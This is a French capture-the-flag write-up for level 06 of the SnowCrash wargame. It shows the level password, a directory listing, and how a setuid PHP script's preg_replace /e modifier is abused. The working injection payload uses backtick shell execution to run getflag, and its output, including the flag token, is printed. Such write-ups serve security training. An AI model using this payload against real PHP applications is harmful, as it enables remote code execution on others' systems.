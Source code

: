 # LEVEL 06

### Reconnaissance

Lorsqu'on se connecte au level06, avec le password viuaaale9huek52boumoomioc
On a 2 fichiers:
```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

- un binaire (level06)
- un fichier php (level06.php)

### Exploitation

En analysant le fichier php on peux voir une vulnérabilitée:

```
PREG_REPLACE_EVAL : /e --> [...]$a = preg_replace("/(\[x (.*)\])/e"[...]
```

Il nous suffit donc d'inséré un code qui poura etre évaluer:

```
level06@SnowCrash:~$ vim /tmp/exploit
// entrer ce code
[x ${`$z`}]
```

- Explication
```
[x        ]	--> code a remplacer sur le preg_replace
${}	    	   --> https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex
``		        --> revient a faire un shell_exec() mais avec l'avantage ici de ne pas devoir inseré de quote ni de parenthèse.         https://stackoverflow.com/questions/3115559/exploitable-php-functions
```

```
level06@SnowCrash:~$ ./level06 /tmp/exploit getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Et voila :)
